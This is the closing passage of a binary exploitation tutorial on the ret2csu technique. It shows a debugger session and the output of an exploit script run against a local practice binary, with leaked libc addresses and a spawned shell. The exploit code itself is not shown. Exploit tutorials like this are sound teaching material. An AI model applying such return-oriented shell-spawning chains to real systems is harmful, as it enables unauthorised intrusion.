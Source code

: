 Cool, now let's continue the execution:-

```asm
gef➤  c
Continuing.
process 15085 is executing new program: /bin/dash
```

It seems like we spawned a shell, let's get back to the script:-

```asm
d4mianwayne@oracle:~/pwn1$ python3 xpl.py 
[*] '/home/d4mianwayne/pwn1/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './chall': pid 15085
[*] puts@libc : 0x7f09dd95e9c0
[*] libc      : 0x7f09dd8de000
[*] '/bin/sh' : 6295888
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ whoami
d4mianwayne
$ id
uid=1000(d4mianwayne) gid=1000(d4mianwayne) groups=1000(d4mianwayne),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),129(libvirt)
$ 
[*] Interrupted
```

Awesome, we did it. Congratulations, you finally made it to end which means you learned the `ret2csu` to some extent. I'd recommend you try it on yourself and mess around with `gdb`.







